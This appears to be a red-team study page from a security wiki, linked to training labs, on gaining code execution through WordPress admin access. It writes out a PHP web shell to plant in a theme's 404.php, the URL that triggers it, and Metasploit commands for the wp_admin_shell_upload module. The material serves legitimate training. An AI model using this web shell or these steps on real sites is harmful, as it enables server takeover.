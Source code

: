# WordPress Admin RCE

[![hackingwordpress](../../../../_badges/htb/hackingwordpress.svg)](https://academy.hackthebox.com/course/preview/hacking-wordpress)
[![colddboxeasy](../../../../_badges/thm-p/colddboxeasy.svg)](https://tryhackme.com/room/colddboxeasy)
[![allinonemj](../../../../_badges/thm-p/allinonemj.svg)](https://tryhackme.com/room/allinonemj)

<div class="row row-cols-lg-2"><div>

With sufficient privileges, it is possible to exploit a remote code execution (RCE) *vulnerability* on WordPress.

Since admins can modify templates, and templates are written in PHP, we can replace one of them with our code. For instance, a remote shell, meaning we would have a remote command execution (RCE).

Select `Appearance` then `Theme Editor`. Select a theme, preferably one that is not used to avoid breaking things.

Pick a non-critical file such as `404.php` and add to it a [web shell](/cybersecurity/red-team/s3.exploitation/shell/web_shell.md) or directly use a [reverse shell](/cybersecurity/red-team/s3.exploitation/shell/reverse_shell.md):
</div><div>

```php!
<?php
// add your webshell
echo "<pre>".shell_exec(($_GET['cmd'] ?? "whoami")." 2>&1")."</pre>";
// prevent the rest of the page from showing up
// ⚠️ it may not work, remove it if it doesn't
exit 0;
```

To execute it, aside from accessing an invalid URL which may highlighted in the logs, directly access the file from the theme folder:

```text!
https://<HOST>/wp-content/themes/<theme_name>/404.php
```
</div></div>

<hr class="sep-both">

## Metasploit Module

<div class="row row-cols-lg-2"><div>

You can use [metasploit](/cybersecurity/red-team/tools/frameworks/metasploit/index.md), but it's quite unreliable.

```shell!
$ msfconsole -q
msf6> use wp_admin_shell_upload
msf6> set USERNAME username
msf6> set PASSWORD password
msf6> set RHOSTS IP
msf6> set LHOST tun0
msf6> run
```
</div><div>

Some options you might want to set:

```shell!
msf6> set WPCHECK yes # may be false in some scenarios
msf6> set httptrace true
msf6> set TARGETURI /wordpress/
msf6> run
```

</div></div>
